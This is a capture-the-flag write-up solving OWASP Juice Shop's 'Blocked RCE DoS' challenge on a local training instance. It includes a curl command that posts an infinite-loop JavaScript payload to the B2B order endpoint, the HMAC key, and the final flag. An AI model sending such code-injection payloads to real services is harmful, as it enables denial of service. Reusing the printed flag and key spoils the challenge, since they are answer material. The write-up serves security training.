


# Blocked RCE DoS

**Platform:** PCGCTF · **Challenge ID:** 135 · **Category:** Insecure Deserialization (JuiceShop track) · **Points:** 1000 · **Rank:** Expert

**Status:** Solved on PCGCTF — flag accepted.

## The challenge

> Perform a Remote Code Execution that would keep a less hardened application busy *forever*.

Tagged `PCGCTF-JuiceShop-Challenges`, so the target is the local OWASP Juice Shop instance (`docker-compose.yml` with `NODE_ENV=ctf` and the shared `CTF_KEY`), reachable at `http://localhost:3000`. This is the Juice Shop `rceChallenge`.

## Thought process

Juice Shop's B2B order endpoint deserializes attacker-controlled JavaScript. The relevant handler is `build/routes/b2bOrder.js`:

```js
const sandbox = { safeEval: notevil.eval, orderLinesData }
vm.createContext(sandbox)
vm.runInContext('safeEval(orderLinesData)', sandbox, { timeout: 2000 })   // RCE sink
...
} catch (err) {
  if (getErrorMessage(err).match(/Script execution timed out.*/)) {
    solveIf(rceOccupyChallenge, () => true)          // -> Successful RCE DoS
  } else {
    solveIf(rceChallenge, () =>
      getErrorMessage(err) === 'Infinite loop detected - reached max iterations')  // -> THIS challenge
  }
}
```

So `orderLinesData` is evaluated as JavaScript through `notevil` inside a `node:vm` with a 2-second timeout. Two different DoS challenges hang off the *type* of failure:

- This challenge (`rceChallenge`) solves **only** when the error message is exactly `Infinite loop detected - reached max iterations` — i.e. when `notevil`'s `InfiniteChecker` trips.
- `notevil/lib/infinite-checker.js` increments a counter on every evaluated AST step and throws that exact message once it passes `maxIterations`.

A tight infinite loop hits the iteration cap almost instantly, so `notevil` throws *before* the vm's wall-clock timeout — producing the "Infinite loop detected" message this challenge wants. "Keep a less hardened app busy forever" = submit the loop a hardened app refuses to run.

## Solving it

Authenticate (any account works; I registered a throwaway one on the local instance), grab the JWT, and POST the loop to the B2B order endpoint:

```sh
curl -s -X POST http://localhost:3000/b2b/v2/orders \
  -H "Authorization: Bearer $TOKEN" -H 'Content-Type: application/json' \
  -d '{"orderLinesData": "(function dos() { while (true); })()"}'
```

The server returns `Error: Infinite loop detected - reached max iterations`. That message is matched in `b2bOrder.js` and `challenges.rceChallenge` is marked solved.

## Deriving the flag

In CTF mode Juice Shop does not print a wrapped flag in the API; the submittable flag is HMAC-derived from the shared `CTF_KEY` (same scheme `juice-shop-ctf` uses to seed the platform):

```python
import hmac, hashlib
key = b"0ae20b40bbb05e9cbde184f7e8625a6f21eaf6cb52259c1e0f4a287709a2c62b"  # CTF_KEY from docker-compose.yml
hmac.new(key, b"Blocked RCE DoS", hashlib.sha1).hexdigest()
# -> e04a31cf2f8a17285a21b43a9cf0545a9a2f6a47
```

PCGCTF wraps it as `pcgCTF{...}` (format confirmed against the known Score Board flag).

## Screenshots

Exploit against the local instance:



Flag accepted on PCGCTF:



## Flag

```text
pcgCTF{e04a31cf2f8a17285a21b43a9cf0545a9a2f6a47}
```

## Takeaway

Passing user input to an evaluator (`notevil` → `vm.runInContext`) is RCE, full stop. Here the sandbox's *own* safety net — `notevil`'s infinite-loop detector — is the oracle that confirms the exploit: the attack is "blocked," but the fact that it had to be blocked is the vulnerability. Never deserialize/evaluate untrusted data; if you must, do it in an isolated process you can kill, not an in-process sandbox.

## Reference

- `build/routes/b2bOrder.js` (RCE sink + solve logic)
- `node_modules/notevil/lib/infinite-checker.js` (`maxIterations` guard)
- Related: [Successful RCE DoS](201-successful-rce-dos.md), [Memory Bomb](215-memory-bomb.md)
